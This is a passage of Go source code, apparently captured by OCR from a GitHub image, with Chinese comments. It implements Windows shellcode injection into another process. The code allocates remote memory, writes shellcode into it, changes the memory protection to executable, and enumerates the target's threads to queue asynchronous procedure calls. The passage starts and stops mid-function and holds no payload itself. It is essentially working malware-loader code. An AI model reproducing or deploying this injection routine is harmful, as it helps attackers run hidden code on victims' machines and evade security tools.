 ```
	}

	// 在指定进程中分配内存空间
	addr, _, errVirtualAlloc := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)
	// 如果分配内存出现错误，返回错误信息
	if errVirtualAlloc.Error() != "The operation completed successfully." {
		return errors.New("Error calling VirtualAlloc:\r\n" + errVirtualAlloc.Error())
	}

	// 如果内存地址为0，表示分配失败，返回错误信息
	if addr == 0 {
		return errors.New("VirtualAllocEx failed and returned 0")
	}

	// 调用 WriteProcessMemory 函数，将 shellcode 写入指定进程的内存地址
	_, _, errWriteProcessMemory := WriteProcessMemory.Call(uintptr(pHandle), addr, uintptr(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

	// 检查 WriteProcessMemory 调用是否出错，如果出错则返回错误信息
	if errWriteProcessMemory.Error() != "The operation completed successfully." {
		return errors.New("Error calling WriteProcessMemory:\r\n" + errWriteProcessMemory.Error())
	}

	// 调用 VirtualProtectEx 函数，设置指定内存区域的访问权限为可执行
	_, _, errVirtualProtectEx := VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(shellcode)), PAGE_EXECUTE)
	// 检查 VirtualProtectEx 调用是否出错，如果出错则返回错误信息
	if errVirtualProtectEx.Error() != "The operation completed successfully." {
		return errors.New("Error calling VirtualProtectEx:\r\n" + errVirtualProtectEx.Error())
	}

	// 定义 THREADENTRY32 结构体，用于获取线程信息
	type THREADENTRY32 struct {
		dwSize             uint32
		cntUsage           uint32
		th32ThreadID       uint32
		th32OwnerProcessID uint32
		tpBasePri          int32
		tpDeltaPri         int32
		// 定义一个名为dwFlags的uint32变量
		dwFlags            uint32
	}
	// 创建一个THREADENTRY32类型的变量t，并设置其dwSize属性为t的大小
	var t THREADENTRY32
	t.dwSize = uint32(unsafe.Sizeof(t))

	// 调用Thread32First函数，获取进程的第一个线程信息
	_, _, errThread32First := Thread32First.Call(uintptr(sHandle), uintptr(unsafe.Pointer(&t)))
	// 检查Thread32First函数的返回错误，如果不是"The operation completed successfully."，则返回错误信息
	if errThread32First.Error() != "The operation completed successfully." {
		return errors.New("Error calling Thread32First:\r\n" + errThread32First.Error())
	}
	// 定义变量i为true，x为0
	i := true
	x := 0
	// 对每个线程排队一个APC；非常不稳定且不理想，需要以编程方式找到可警报的线程
	for i {
		// 调用Thread32Next函数，获取下一个线程信息
		_, _, errThread32Next := Thread32Next.Call(uintptr(sHandle), uintptr(unsafe.Pointer(&t)))
		// 检查Thread32Next函数的返回错误，如果是"There are no more files."，则执行以下操作
		if errThread32Next.Error() == "There are no more files." {
			// 如果x等于1，则返回错误信息
```